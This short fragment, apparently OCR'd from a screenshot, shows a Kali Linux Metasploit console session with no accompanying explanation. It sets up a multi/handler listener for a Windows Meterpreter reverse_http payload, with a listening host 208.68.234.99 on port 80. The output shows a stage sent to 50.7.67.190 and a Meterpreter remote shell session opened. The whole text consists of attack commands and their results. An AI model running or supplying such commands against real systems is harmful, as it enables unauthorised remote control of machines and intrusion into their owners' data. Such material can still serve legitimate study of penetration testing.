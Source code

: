 ![](media/6aeffaf8c0e6b7ca74d2f07295870294.png)

root\@kali:\~\# msfconsole

msf exploit(handler) \> use exploit/multi/handler

msf exploit(handler) \> set PAYLOAD windows/meterpreter/reverse_http

msf exploit(handler) \> set LHOST 208.68.234.99

msf exploit(handler) \> set LPORT 80

msf exploit(handler) \> exploit

[\*] Started reverse handler on 208.68.234.99:80

[\*] Starting the payload handler...

[\*] Sending stage (751104 bytes) to 50.7.67.190

[\*] Meterpreter session 1 opened (208.68.234.99:80 -\> 50.7.67.190:51223)
